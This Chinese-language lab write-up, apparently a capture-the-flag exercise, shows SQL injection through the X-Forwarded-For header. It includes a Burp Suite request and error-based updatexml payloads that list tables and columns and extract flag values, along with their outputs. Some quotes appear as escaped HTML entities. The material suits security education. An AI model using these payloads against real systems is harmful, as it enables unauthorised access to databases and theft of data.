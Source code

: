 ```yaml
---
layout: post
title: Head 注入 -  X-Forwarded-For 注入 （XFF）
categories: [SQL注入, 安全]
description: Head 注入 -  X-Forwarded-For 注入 （XFF）
keywords: SQL注入, head
---
```


# Head 注入 -  X-Forwarded-For 注入 （XFF）



## 注意

1. burpsuite http 文件有自己的格式， HEAD 信息之间 **不能有** 空格。
2. `X-Forwarded-For` 单词不要写错。
3. `X-Forwarded-For` 在直接请求时，burpsuite 抓包中没有。 因此需要手工传入。
4. 在每一步都需要仔细认真，**切忌焦躁、贪多** ，事情往往就在最后一步事情平常心而导致失败。 

## 使用 burpsuite

```http
POST /Pass-09/index.php HTTP/1.1
Host: inject2.lab.aqlab.cn:81
Content-Length: 30
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://inject2.lab.aqlab.cn:81
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://inject2.lab.aqlab.cn:81/Pass-09/index.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
X-Forwarded-For: 192.168.1.11&amp;#039;, updatexml(1,concat(0x7e,database(),0x7e),1) ) -- gg 

username=admin&amp;amp;password=123456

```

## 查询 FLAG

**1. 确认 XFF 可用**

```
X-Forwarded-For: 192.168.1.11&amp;#039;, updatexml(1,concat(0x7e,database(),0x7e),1) ) -- gg 
```

![](https://nc0.cdn.zkaq.cn/md/8461/e7291a30b0fa1d8d107325a12994b1b0_87272.png)

**2. 查询表名**

```sql
select group_concat(table_name) from information_schema.tables where table_schema=database()
```

```
X-Forwarded-For: 192.168.1.11&amp;#039;, updatexml(1,concat(0x7e,   (select group_concat(table_name) from information_schema.tables where table_schema=database())   ,0x7e),1) ) -- gg 
```

&amp;gt; result:  `flag_head,ip,refer,uagent,user` 

![](https://nc0.cdn.zkaq.cn/md/8461/3e2050c6a2d112ad6ca1a4be9af58a5f_44280.png)

**3. 查询字段名**

```sql
select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name=&amp;#039;flag_head&amp;#039; 
```

```
X-Forwarded-For: 192.168.1.11&amp;#039;, updatexml(1,concat(0x7e,   (select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name=&amp;#039;flag_head&amp;#039; )   ,0x7e),1) ) -- gg 
```

&amp;gt; result: Id,flag_h1

![](https://nc0.cdn.zkaq.cn/md/8461/9af47800b8c7abbe1fda4223c24e1459_48726.png)

**4. 查询数据**

```sql
select group_concat(flag_h1) from flag_head 
```

```
X-Forwarded-For: 192.168.1.11&amp;#039;, updatexml(1,concat(0x7e,   (select group_concat(flag_h1) from flag_head )   ,0x7e),1) ) -- gg 
```

&amp;gt; result:  zKaQ-YourHd,zKaQ-Refer,zKaQ-ipi

![](https://nc0.cdn.zkaq.cn/md/8461/76ad1a031d9b204c2537788e39809d2c_84160.png)


**5. updatexml 长度显示异常**

本以为结果 OK 了， 结果提交不了。 

自己分析上一次的返回截图， 发现其实返回结果并不全。 

**正常的应该是 `xx~` 结尾， 但此处不是**

![](https://nc0.cdn.zkaq.cn/md/8461/49e55df87ccb989ff19842c9c45ecb41_25478.png)


于是，直接查询字段， 使用 limit 限制返回结果数量。

```sql
select flag_h1 from flag_head limit 2,1
```

```
X-Forwarded-For: 192.168.1.11', updatexml(1,concat(0x7e,   (select flag_h1 from flag_head limit 2,1)   ,0x7e),1) ) -- gg 
```

> result:     XPATH syntax error: '~zKaQ-ipip~'

![](https://nc0.cdn.zkaq.cn/md/8461/bdf3da160835a6e8260816886f97c96f_88298.png)


## 0xGG

[BurpSuite 几个扩展的使用](https://zhuanlan.zhihu.com/p/27545785)

